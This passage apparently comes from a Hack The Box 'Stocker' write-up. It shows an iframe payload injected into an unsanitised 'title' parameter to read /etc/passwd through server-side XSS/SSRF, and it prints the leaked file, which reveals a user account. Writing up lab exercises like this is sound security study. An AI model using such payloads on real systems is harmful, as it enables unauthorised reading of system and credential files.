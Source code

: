 ```HTML
<iframe src=file:///etc/passwd></iframe>
```

![](blog/htb_m/Stocker/Pasted image 20230205171003.png)

And it looks like the `title` parameter can be exploited due to the lack of sanitisation. Furthermore, the success of the use of the `file:` parameter indicates the exploit of *Server-Side XSS* and [*SSRF (Server Side Request Forgery)*](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery).

After repeating the steps from above and editing the payload to expend the `iframe` for better readability (`height=1000px width=1000px`), I was able to read the username.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
{: file="/etc/passwd"}
